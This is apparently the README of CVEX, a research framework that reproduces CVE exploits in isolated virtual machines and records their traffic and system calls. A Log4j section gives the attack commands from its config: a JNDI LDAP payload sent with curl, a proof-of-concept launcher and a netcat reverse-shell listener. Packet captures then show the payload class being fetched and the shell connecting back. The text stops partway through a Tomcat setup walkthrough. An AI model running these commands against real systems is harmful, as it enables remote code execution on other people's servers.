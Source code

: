 # CVEX: eXecutable CVEs

What is CVEX?

CVEX is a framework for the reproducible exploitation of CVE vulnerabilities:
- Provides blueprints of pre-made exploitation setups, pre-configured with metadata collection facilities (raw traffic, HTTP/S requests, system calls/API calls).
- Uses virtualization to instantiate the blueprint and automatically execute the attack, supporting live analysis of exploitation.
- Separates infrastructure from CVE-related configuration allowing for reuse of blueprints.
- Incentivizes contributors to share reproducible exploits.

Tech stack:
- Virtualization: Vagrant
- Installation and configuration: Ansible
- Network traffic collection: tcpdump
- HTTPS collection: mitmproxy
- Linux syscall collection: strace
- Windows API collection: Process Monitor

## Install

CVEX has been tested on Ubuntu 24.04, 22.04, and 20.04.

Create virtual environment (optional):
```
python3 -m venv venv
source venv/bin/activate
```

Install CVEX:
```
~/CVEX$ sudo apt update
~/CVEX$ pip install -e .
```

Install Vagrant:
```
wget https://releases.hashicorp.com/vagrant/2.4.1/vagrant-2.4.1-1.x86_64.rpm
sudo apt install alien
sudo alien -i vagrant-2.4.1-1.x86_64.rpm
```

Install Ansible:
```
sudo apt-add-repository ppa:ansible/ansible
sudo apt update
sudo apt install ansible
```

Install VirtualBox (**Ubuntu 22.04**):
```
wget https://download.virtualbox.org/virtualbox/7.0.20/virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
sudo dpkg -i virtualbox-7.0_7.0.20-163906~Ubuntu~jammy_amd64.deb
wget https://download.virtualbox.org/virtualbox/7.0.20/Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
sudo vboxmanage extpack install Oracle_VM_VirtualBox_Extension_Pack-7.0.20.vbox-extpack
```
Refer to the VirtualBox [download](https://www.oracle.com/virtualization/technologies/vm/downloads/virtualbox-downloads.html) page to find the appropriate package of VirtualBox that suits your OS. If dpkg shows errors during installation, run this command to fix them:
```
sudo apt --fix-broken install
```

While in theory Vagrant should work with any VM provider, CVEX was tested only with VirtualBox.

## Run

Execute CVE by providing the CVEX record folder to the `cvex` command:
```
~/CVEX$ cvex records/CVE-0000-00001
```

CVEX comes with a set of PoCs:
- [CVE-0000-00000](records/CVE-0000-00000): curl, executed on Windows, downloads a web-page from ngix, running on Ubuntu
- [CVE-0000-00001](records/CVE-0000-00001): curl, executed on Ubuntu, downloads a web-page from ngix, running on another Ubuntu
- [CVE-0000-00002](records/CVE-0000-00002): curl, executed on Ubuntu, downloads a web-page from ngix, running on Windows
- [CVE-0000-00003](records/CVE-0000-00003): curl, executed on Windows, downloads a web-page from ngix, running on another Windows
- [CVE-2021-44228](records/CVE-2021-44228): Log4j vulnerability with backconnect to remote shell

<details>
<summary>CVE-2021-44228 logs analysis</summary>

[records/CVE-2021-44228/cvex.yml](records/CVE-2021-44228/cvex.yml) describes the VM infrastructure for this CVE:

```
blueprint: ubuntu2204-ubuntu2204
ubuntu1:
  playbook: ubuntu1.yml
ubuntu2:
  playbook: ubuntu2.yml
  trace: "curl|python3|nc|java"
  command:
    - "python3 /opt/log4j-shell-poc/poc.py --userip %ubuntu2% --webport 9999 --lport 1234&~~~Listening on 0.0.0.0:1389"
    - "nc -nvlp 1234&~~~Listening on 0.0.0.0 1234"
    # Web server may not reply, which will cause curl to hang
    - "curl -d 'uname=%24%7Bjndi%3Aldap%3A%2F%2F%ubuntu2%%3A1389%2Fa%7D&password=' http://ubuntu1:8080/login&"
    - "sleep 10"
```

Ansible playbook `ubuntu1.yml` installs an Apache Tomcat based web application, vulnerable to the Log4j attack. Ansible playbook `ubuntu2.yml` installs a fake LDAP server and a web server that is hosting the payload.

Since the execution process has been already described in the section `Execution of CVE-0000-00000`, let's focus on analysis of logs produced by CVEX. In our logs the IP address of `ubuntu1` is `192.168.56.3`, the IP address of `ubuntu2` is `192.168.56.4`.

To inspect the PCAP file, run tcpdump:
```
~/CVEX$ tcpdump -qns 0 -A -r out/router_raw.pcap
```

The attacker `192.168.56.4` (`ubuntu2`) issues an HTTP POST request to Apache Tomcat running on `192.168.56.3` (`ubuntu1`). The POST request contains malicious data `${jndi:ldap://192.168.56.4:1389/a}` in the `uname` field. The data is URL-encoded:
```
15:34:03.050477 IP 192.168.56.4.36880 > 192.168.56.3.8080: tcp 219
E....t@.@.....8...8.....:.u................
.....$C.POST /login HTTP/1.1
Host: ubuntu1:8080
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 68
Content-Type: application/x-www-form-urlencoded

uname=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.4%3A1389%2Fa%7D&password=
```

Log4j logs the `${jndi:ldap://192.168.56.4:1389/a}` string. This triggers the JNDI manager to make a request to the LDAP server controlled by the attacker (`192.168.56.4:1389`). The LDAP server replies with a link to the payload:
```
15:34:04.187067 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.@.d...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.187088 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 148
E.....@.?.e...8...8..m.V.:..Z3.I...........
.....$G.0.....d....a0..0...javaClassName1...foo0+..javaCodeBase1...http://192.168.56.4:9999/0$..objectClass1...javaNamingReference0...javaFactory1	..Exploit
15:34:04.191353 IP 192.168.56.4.1389 > 192.168.56.3.36182: tcp 14
E..B..@.@.em..8...8..m.V.:..Z3.I...........
.....$G.0....e.
......
```

JNDI manager requests the payload hosted on `http://192.168.56.4:9999/Exploit.class`:
```
15:34:04.229544 IP 192.168.56.3.41350 > 192.168.56.4.9999: tcp 213
E..	@.@.>.	...8...8...'...._96.............
.$Ha...8GET /Exploit.class HTTP/1.1
Cache-Control: no-cache
Pragma: no-cache
User-Agent: Java/1.8.0_102
Host: 192.168.56.4:9999
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
```

Web server `192.168.56.4:9999` replies with the payload:
```
15:34:04.385348 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 198
E.....@.?..#..8...8.'...96.....4...........
.....$HaHTTP/1.0 200 OK
Server: SimpleHTTP/0.6 Python/3.10.12
Date: Wed, 09 Oct 2024 13:33:51 GMT
Content-type: application/java-vm
Content-Length: 1361
Last-Modified: Wed, 09 Oct 2024 13:33:48 GMT

15:34:04.408072 IP 192.168.56.4.9999 > 192.168.56.3.41350: tcp 1361
E.....@.@.|...8...8.'...96.c...4...........
.....$I........4.f
...-...../..0..1
...2
...3
...4..5
.	.6
.7.8
.7.9
.	.8
.7.:
.	.:
.	.;
.<.=
.<.>
.?.@
.?.A........2
.B.C
.7.D..E
.7.F
.	.G..H..I...<init>...()V...Code...LineNumberTable...StackMapTable..H..1..J..5..K..L..E..
Exceptions..
SourceFile...Exploit.java........192.168.56.4.../bin/sh...java/lang/ProcessBuilder...java/lang/String....M..N.O..P.Q...java/net/Socket....R..J..S.T..U.T..V.W..X.Y..K..Z.[..\.[..L..].^.._....`..a.b..c.[...java/lang/Exception..d....e.....Exploit...java/lang/Object...java/lang/Process...java/io/InputStream...java/io/OutputStream...([Ljava/lang/String;)V...redirectErrorStream...(Z)Ljava/lang/ProcessBuilder;...start...()Ljava/lang/Process;...(Ljava/lang/String;I)V...getInputStream...()Ljava/io/InputStream;...getErrorStream...getOutputStream...()Ljava/io/OutputStream;...isClosed...()Z..	available...()I...read...write...(I)V...flush...java/lang/Thread...sleep...(J)V..	exitValue...destroy...close.!................... ............*.....L...=..N...Y....Y.-S..........:...	Y+...
:......:......:......:......:	.....:
.......`.........
....................
....................	............
....	..............W...:............................!...n.....	...
.............&...1...8...?...F...T...\...d...q...y.................................!..."...$...%...&."...1....T....#..$...$..%..&..'..'..'..(..(......X..)..*...........+.....,
```

The payload connects back to netcat (`nc -nvlp 1234` from cvex.yml), executed by the attacker:
```
15:34:04.462260 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.?..Y..8...8..,...g........../A.........
.$IN........
15:34:04.462345 IP 192.168.56.3.60972 > 192.168.56.4.1234: tcp 0
E..<I.@.>..Y..8...8..,...g........../A.........
.$IN........
15:34:04.464332 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.@.Id..8...8....,.Z...g......"..........
...3.$IN....
15:34:04.464348 IP 192.168.56.4.1234 > 192.168.56.3.60972: tcp 0
E..<..@.?.Jd..8...8....,.Z...g......"..........
...3.$IN....
```

</details>

## Debug

1. Re-start CVEX.
2. Restart CVEX with the `-v` parameter (verbose logging).
3. Connect to the VM via SSH with the help of `vagrant ssh` command
<details>
<summary>How to use "vagrant ssh"</summary>

```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2021-44228/ubuntu1
==> default: Restoring the snapshot 'CVE-2021-44228/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Thu Oct 10 06:33:32 AM UTC 2024

  System load:  1.0625             Users logged in:          0
  Usage of /:   15.2% of 30.34GB   IPv4 address for docker0: 172.17.0.1
  Memory usage: 22%                IPv4 address for eth0:    10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1:    192.168.56.4
  Processes:    155


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct  9 13:29:41 2024 from 10.0.2.2

vagrant@ubuntu:~$ 
```

</details>

Use VirtualBox GUI to manage VMs and snapshots.

## Create your own

<details>

<summary>Expand to see how to create your own CVEX record</summary>

Choose the right name for your CVEX record and create a new subfolder with this name in the [records](records) folder. Let's imagine that our goal is to reproduce CVE-2020-1938 (Apache Tomcat AJP Arbitrary File Read/Include Vulnerability). Obvious choice for the folder name would be `CVE-2020-1938`.

Let's use the [ubuntu2204-ubuntu2204](blueprints/ubuntu2204-ubuntu2204) blueprint. Create the simplest `records/CVE-2020-1938/cvex.yml`:
```
blueprint: ubuntu2204-ubuntu2204
```

Run CVEX:
```
~/CVEX$ cvex records/CVE-2020-1938
```

CVEX will create the router VM and two Ubuntu 22.04 VMs:
```
2024-10-23 14:02:12,627 - INFO - [router] Initializing a new VM router at /home/john/.cvex/router...
2024-10-23 14:02:13,733 - INFO - [router] Starting the VM router...
2024-10-23 14:04:09,541 - INFO - [router] Creating snapshot 'clean' for VM router (192.168.56.2)...
2024-10-23 14:04:24,545 - INFO - [router] Retrieving SSH configuration of router...
2024-10-23 14:04:24,545 - INFO - [router] Inventory /home/john/.cvex/router/inventory.ini has been created
2024-10-23 14:04:24,545 - INFO - [router] Executing Ansible playbook /ll/sources/CVEX/ansible/router.yml...
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] PLAY [Router] ******************************************************************
2024-10-23 14:04:25,440 - INFO - [router] 
2024-10-23 14:04:25,440 - INFO - [router] TASK [Gathering Facts] *********************************************************
2024-10-23 14:04:29,337 - INFO - [router] [WARNING]: Platform linux on host router is using the discovered Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:04:29,337 - INFO - [router] interpreter could change the meaning of that path. See
2024-10-23 14:04:29,337 - INFO - [router] https://docs.ansible.com/ansible-
2024-10-23 14:04:29,337 - INFO - [router] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:04:29,370 - INFO - [router] ok: [router]
2024-10-23 14:04:29,371 - INFO - [router] 
2024-10-23 14:04:29,371 - INFO - [router] TASK [Pull mitmproxy-10.3.1-linux-x86_64.tar.gz] *******************************
2024-10-23 14:04:50,650 - INFO - [router] changed: [router]
2024-10-23 14:04:50,650 - INFO - [router] 
2024-10-23 14:04:50,650 - INFO - [router] TASK [Run mitmdump] ************************************************************
2024-10-23 14:04:51,642 - INFO - [router] changed: [router]
2024-10-23 14:04:51,643 - INFO - [router] 
2024-10-23 14:04:51,643 - INFO - [router] TASK [Wait for ~/.mitmproxy] ***************************************************
2024-10-23 14:04:56,908 - INFO - [router] ok: [router]
2024-10-23 14:04:56,908 - INFO - [router] 
2024-10-23 14:04:56,908 - INFO - [router] TASK [Kill mitmdump] ***********************************************************
2024-10-23 14:04:57,573 - INFO - [router] changed: [router]
2024-10-23 14:04:57,573 - INFO - [router] 
2024-10-23 14:04:57,574 - INFO - [router] TASK [Copy certindex] **********************************************************
2024-10-23 14:04:59,498 - INFO - [router] changed: [router]
2024-10-23 14:04:59,498 - INFO - [router] 
2024-10-23 14:04:59,498 - INFO - [router] TASK [Copy default.cfg] ********************************************************
2024-10-23 14:05:01,188 - INFO - [router] changed: [router]
2024-10-23 14:05:01,188 - INFO - [router] 
2024-10-23 14:05:01,189 - INFO - [router] TASK [Generate CRL] ************************************************************
2024-10-23 14:05:01,826 - INFO - [router] changed: [router]
2024-10-23 14:05:01,826 - INFO - [router] 
2024-10-23 14:05:01,826 - INFO - [router] TASK [Convert CRL from PEM to DER] *********************************************
2024-10-23 14:05:02,430 - INFO - [router] changed: [router]
2024-10-23 14:05:02,431 - INFO - [router] 
2024-10-23 14:05:02,431 - INFO - [router] TASK [Fetch root.crl] **********************************************************
2024-10-23 14:05:03,198 - INFO - [router] changed: [router]
2024-10-23 14:05:03,198 - INFO - [router] 
2024-10-23 14:05:03,198 - INFO - [router] TASK [Fetch mitmproxy-ca-cert.cer] *********************************************
2024-10-23 14:05:03,933 - INFO - [router] changed: [router]
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:03,933 - INFO - [router] PLAY RECAP *********************************************************************
2024-10-23 14:05:03,933 - INFO - [router] router                     : ok=11   changed=9    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:05:03,933 - INFO - [router] 
2024-10-23 14:05:04,072 - INFO - [router] Creating snapshot 'router' for VM router (192.168.56.2)...
2024-10-23 14:05:14,799 - INFO - [ubuntu1] Initializing a new VM ubuntu1 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1...
2024-10-23 14:05:17,209 - INFO - [ubuntu1] Starting the VM ubuntu1...
2024-10-23 14:07:26,896 - INFO - [ubuntu1] Creating snapshot 'clean' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:40,427 - INFO - [ubuntu1] Retrieving SSH configuration of ubuntu1...
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini has been created
2024-10-23 14:07:40,428 - INFO - [ubuntu1] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] PLAY [Linux] *******************************************************************
2024-10-23 14:07:41,369 - INFO - [ubuntu1] 
2024-10-23 14:07:41,369 - INFO - [ubuntu1] TASK [Gathering Facts] *********************************************************
2024-10-23 14:07:44,182 - INFO - [ubuntu1] [WARNING]: Platform linux on host ubuntu1 is using the discovered Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:07:44,182 - INFO - [ubuntu1] interpreter could change the meaning of that path. See
2024-10-23 14:07:44,182 - INFO - [ubuntu1] https://docs.ansible.com/ansible-
2024-10-23 14:07:44,182 - INFO - [ubuntu1] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:07:44,201 - INFO - [ubuntu1] ok: [ubuntu1]
2024-10-23 14:07:44,201 - INFO - [ubuntu1] 
2024-10-23 14:07:44,201 - INFO - [ubuntu1] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:07:45,707 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:45,707 - INFO - [ubuntu1] 
2024-10-23 14:07:45,707 - INFO - [ubuntu1] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:07:50,772 - INFO - [ubuntu1] changed: [ubuntu1]
2024-10-23 14:07:50,772 - INFO - [ubuntu1] 
2024-10-23 14:07:50,772 - INFO - [ubuntu1] PLAY RECAP *********************************************************************
2024-10-23 14:07:50,773 - INFO - [ubuntu1] ubuntu1                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:07:50,773 - INFO - [ubuntu1] 
2024-10-23 14:07:50,905 - INFO - [ubuntu1] Creating snapshot 'CVE-2020-1938/ubuntu1' for VM ubuntu1 (192.168.56.3)...
2024-10-23 14:07:59,288 - INFO - [ubuntu2] Initializing a new VM ubuntu2 at /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2...
2024-10-23 14:08:00,935 - INFO - [ubuntu2] Starting the VM ubuntu2...
2024-10-23 14:09:55,140 - INFO - [ubuntu2] Creating snapshot 'clean' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Retrieving SSH configuration of ubuntu2...
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Inventory /home/john/.cvex/bento_ubuntu-22.04/202404.23.0/2/inventory.ini has been created
2024-10-23 14:10:09,014 - INFO - [ubuntu2] Executing Ansible playbook /ll/sources/CVEX/ansible/linux.yml...
2024-10-23 14:10:09,813 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] PLAY [Linux] *******************************************************************
2024-10-23 14:10:09,814 - INFO - [ubuntu2] 
2024-10-23 14:10:09,814 - INFO - [ubuntu2] TASK [Gathering Facts] *********************************************************
2024-10-23 14:10:12,545 - INFO - [ubuntu2] [WARNING]: Platform linux on host ubuntu2 is using the discovered Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter at /usr/bin/python3.10, but future installation of another Python
2024-10-23 14:10:12,545 - INFO - [ubuntu2] interpreter could change the meaning of that path. See
2024-10-23 14:10:12,545 - INFO - [ubuntu2] https://docs.ansible.com/ansible-
2024-10-23 14:10:12,545 - INFO - [ubuntu2] core/2.17/reference_appendices/interpreter_discovery.html for more information.
2024-10-23 14:10:12,566 - INFO - [ubuntu2] ok: [ubuntu2]
2024-10-23 14:10:12,566 - INFO - [ubuntu2] 
2024-10-23 14:10:12,567 - INFO - [ubuntu2] TASK [Copy mitmproxy-ca-cert.cer] **********************************************
2024-10-23 14:10:14,807 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:14,807 - INFO - [ubuntu2] 
2024-10-23 14:10:14,807 - INFO - [ubuntu2] TASK [Run update-ca-certificates] **********************************************
2024-10-23 14:10:19,573 - INFO - [ubuntu2] changed: [ubuntu2]
2024-10-23 14:10:19,573 - INFO - [ubuntu2] 
2024-10-23 14:10:19,573 - INFO - [ubuntu2] PLAY RECAP *********************************************************************
2024-10-23 14:10:19,574 - INFO - [ubuntu2] ubuntu2                    : ok=3    changed=2    unreachable=0    failed=0    skipped=0    rescued=0    ignored=0
2024-10-23 14:10:19,574 - INFO - [ubuntu2] 
2024-10-23 14:10:19,717 - INFO - [ubuntu2] Creating snapshot 'CVE-2020-1938/ubuntu2' for VM ubuntu2 (192.168.56.4)...
2024-10-23 14:10:28,249 - INFO - [router] Executing 'ls /etc/netplan'...
2024-10-23 14:10:30,157 - INFO - [router] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:30,223 - INFO - [router] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:30,243 - INFO - [router] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:30,259 - INFO - [router] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:30,274 - INFO - [router] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:30,309 - INFO - [router] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:30,393 - INFO - [router] Executing 'sudo netplan apply'...
2024-10-23 14:10:32,602 - INFO - [router] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:32,686 - INFO - [router] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:32,797 - INFO - [ubuntu1] Executing 'ls /etc/netplan'...
2024-10-23 14:10:34,691 - INFO - [ubuntu1] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:34,768 - INFO - [ubuntu1] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:34,794 - INFO - [ubuntu1] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:34,821 - INFO - [ubuntu1] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:34,844 - INFO - [ubuntu1] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:34,890 - INFO - [ubuntu1] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:34,980 - INFO - [ubuntu1] Executing 'sudo netplan apply'...
2024-10-23 14:10:37,394 - INFO - [ubuntu1] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:37,470 - INFO - [ubuntu1] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:37,573 - INFO - [ubuntu1] Downloading /etc/hosts...
2024-10-23 14:10:37,627 - INFO - [ubuntu1] Uploading /tmp/hosts...
2024-10-23 14:10:37,643 - INFO - [ubuntu1] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:37,669 - INFO - [ubuntu2] Executing 'ls /etc/netplan'...
2024-10-23 14:10:39,056 - INFO - [ubuntu2] Downloading /etc/netplan/00-installer-config.yaml...
2024-10-23 14:10:39,111 - INFO - [ubuntu2] Downloading /etc/netplan/01-netcfg.yaml...
2024-10-23 14:10:39,132 - INFO - [ubuntu2] Downloading /etc/netplan/50-vagrant.yaml...
2024-10-23 14:10:39,156 - INFO - [ubuntu2] Uploading /tmp/cvex.yaml...
2024-10-23 14:10:39,175 - INFO - [ubuntu2] Executing 'sudo mv /tmp/cvex.yaml /etc/netplan/50-vagrant.yaml'...
2024-10-23 14:10:39,213 - INFO - [ubuntu2] Executing 'sudo ip link set eth1 up'...
2024-10-23 14:10:39,294 - INFO - [ubuntu2] Executing 'sudo netplan apply'...
2024-10-23 14:10:41,243 - INFO - [ubuntu2] Executing 'sudo ip route change 192.168.56.0/24 via 192.168.56.2 dev eth1'...
2024-10-23 14:10:41,320 - INFO - [ubuntu2] Executing 'sudo systemctl restart ufw'...
2024-10-23 14:10:41,437 - INFO - [ubuntu2] Downloading /etc/hosts...
2024-10-23 14:10:41,481 - INFO - [ubuntu2] Uploading /tmp/hosts...
2024-10-23 14:10:41,491 - INFO - [ubuntu2] Executing 'sudo mv /tmp/hosts /etc/hosts'...
2024-10-23 14:10:41,530 - INFO - [router] Executing 'pkill mitmdump'...
2024-10-23 14:10:41,569 - INFO - [router] Executing 'sudo pkill tcpdump'...
2024-10-23 14:10:41,644 - INFO - [router] Executing 'rm -rf /tmp/cvex'...
2024-10-23 14:10:41,704 - INFO - [router] Executing 'mkdir /tmp/cvex'...
2024-10-23 14:10:41,765 - INFO - [router] Executing 'sudo sysctl net.ipv4.ip_forward=1'...
2024-10-23 14:10:41,852 - INFO - [router] Executing 'sudo tcpdump -i eth1 -U -w /tmp/cvex/router_raw.pcap'...
2024-10-23 14:10:41,888 - INFO - [router] Executing 'sudo iptables -t nat -I PREROUTING --src 0/0 --dst 0/0 -p tcp --dport 443 -j REDIRECT --to-ports 8080'...
2024-10-23 14:10:42,179 - INFO - [router] Executing 'mitmdump --mode transparent -k --set block_global=false -w /tmp/cvex/router_mitmdump.stream'...
2024-10-23 14:10:45,230 - INFO - [router] Wait for 5 seconds to let tcpdump and mitmdump flush logs on disk...
2024-10-23 14:10:50,230 - INFO - [router] Downloading /tmp/cvex/router_raw.pcap...
2024-10-23 14:10:50,249 - INFO - [router] Downloading /tmp/cvex/router_mitmdump.stream...
2024-10-23 14:10:50,259 - INFO - [router] Stopping VM router...
2024-10-23 14:11:04,799 - INFO - [ubuntu1] Stopping VM ubuntu1...
2024-10-23 14:11:19,848 - INFO - [ubuntu2] Stopping VM ubuntu2...
```

You will also see them in the VirtualBox GUI:
![CVEX VMs](img/ubuntu2204-ubuntu2204.png)

Whenever you need to experiment with the VMs, restore snapshots with `vagrant snapshot restore`:
```
$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/

~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant snapshot restore CVE-2020-1938/ubuntu1
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu1'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2200
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.

$ cd ~/.cvex/bento_ubuntu-22.04/202404.23.0/2/

~/.cvex/bento_ubuntu-22.04/202404.23.0/2$ vagrant snapshot restore CVE-2020-1938/ubuntu2
==> default: Forcing shutdown of VM...
==> default: Restoring the snapshot 'CVE-2020-1938/ubuntu2'...
==> default: Checking if box 'bento/ubuntu-22.04' version '202404.23.0' is up to date...
==> default: Resuming suspended VM...
==> default: Booting VM...
==> default: Waiting for machine to boot. This may take a few minutes...
    default: SSH address: 127.0.0.1:2201
    default: SSH username: vagrant
    default: SSH auth method: private key
==> default: Machine booted and ready!
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
```

To perform administrative tasks, connect to the needed VM over SSH with `vagrant ssh`:
```
~/.cvex/bento_ubuntu-22.04/202404.23.0/1$ vagrant ssh
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-102-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Wed Oct 23 12:20:56 PM UTC 2024

  System load:  0.14208984375      Processes:             142
  Usage of /:   12.0% of 30.34GB   Users logged in:       0
  Memory usage: 11%                IPv4 address for eth0: 10.0.2.15
  Swap usage:   0%                 IPv4 address for eth1: 192.168.56.3


This system is built by the Bento project by Chef Software
More information can be found at https://github.com/chef/bento
Last login: Wed Oct 23 12:07:40 2024 from 10.0.2.2

vagrant@ubuntu1:~$
```

The first step would be to install the vulnerable Apache Tomcat 9.0.30 on `ubuntu1`. You need to find the binaries and build the Ansible playbook `ubuntu1.yml` that installs this service. Create the following structure of the CVEX record folder:
```
$/CVEX$ tree records/CVE-2020-1938

records/CVE-2020-1938
├── cvex.yml
├── data
│   └── apache-tomcat-9.0.30.tar.gz
└── ubuntu1.yml
```

Now run the Ansible playbook on `ubuntu1` to see if it works:
```
$ ansible-playbook -i ~/.cvex/bento_ubuntu-22.04/202404.23.0/1/inventory.ini records/CVE-2020-1938/ubuntu1.yml 

PLAY [Install Apache Tomcat vulnerable to AJP Arbitrary File Read/Include（CVE-2020-1938）] ***************************************************************************************************************

TASK [Gathering Facts] ************************************************************************************************************************************************************************************
[WARNING]: Platform linux on host ubuntu1 is using the discovered Python interpreter at /usr/bin/python3.10, but future installation of another Python interpreter could change the meaning of that path.
See https://docs.ansible.com/ansible-core/2.17/reference_appendices/interpreter_discovery.html for more information.
ok: [ubuntu1]

TASK [Update apt cache] ***********************************************************************************************************************************************************************************
ok: [ubuntu1]

TASK [Install dependencies (Java and utilities)] **********************************************************************************************************************************************************
ok: [ubuntu1] => (item=curl)
ok: [ubuntu1] => (item=wget)
ok: [ubuntu1] => (item=tar)
changed: [ubuntu1] => (item=openjdk-11-jre-headless)

TASK [Create tomcat group] ********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create tomcat user] *********************************************************************************************************************************************************************************
changed: [ubuntu1]

TASK [Create installation directory for Tomcat] ***********************************************************************************************************************************************************
